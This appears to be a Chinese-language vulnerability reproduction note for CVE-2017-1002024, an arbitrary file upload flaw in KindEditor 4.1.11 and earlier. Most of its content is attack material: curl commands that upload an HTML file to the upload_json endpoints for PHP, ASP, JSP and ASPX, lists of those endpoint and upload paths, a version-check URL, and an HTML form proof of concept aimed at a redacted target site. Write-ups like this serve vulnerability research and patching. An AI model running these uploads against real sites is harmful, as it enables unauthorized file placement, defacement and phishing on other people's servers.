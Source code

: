 ```yaml
---
title: （CVE-2017-1002024）Kindeditor <=4.1.11 上传漏洞
tags:
  - CVE
  - Kindeditor
abbrlink: 29251
date: 2022-05-25 10:01:52
---
```


# （CVE-2017-1002024）Kindeditor <=4.1.11 上传漏洞

## 一、漏洞简介

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.11编辑器中

## 二、漏洞影响

Kindeditor \<=4.1.11

## 三、复现过程

```
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/php/upload_json.php?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/asp/upload_json.asp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/jsp/upload_json.jsp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/aspx/upload_json.aspx?dir=file 


```返回值为路径 
```

> json文件地址

```
/asp/upload_json.asp

/asp.net/upload_json.ashx

/jsp/upload_json.jsp

/php/upload_json.php
```

> 上传路径

```
kindeditor/asp/upload_json.asp?dir=file

kindeditor/asp.net/upload_json.ashx?dir=file

kindeditor/jsp/upload_json.jsp?dir=file

kindeditor/php/upload_json.php?dir=file
```

> 查看版本信息

```
http://www.0-sec.org/kindeditor//kindeditor.js
```

![](https://raw.githubusercontent.com/16778738/picture/master/img/20220525102017.png)

![](https://raw.githubusercontent.com/16778738/picture/master/img/20220525102103.png)

## 构造poc

~~~html

<html>
 <head></head>
 <body>
  <form name="form" enctype="multipart/form-data" method="post" action="https://xxxxxxxxxxxx/static/school/tool/kindeditor/php/upload_json.php?dir=file">
   <input type="file" name="imgFile" />
   <input type="submit" value="Submit" />
  </form>
 </body>
</html>

~~~

## 正确的回显

![](https://raw.githubusercontent.com/16778738/picture/master/img/20220525101450.png)

### 错误的回显

![](https://raw.githubusercontent.com/16778738/picture/master/img/20220525101748.png)

> 
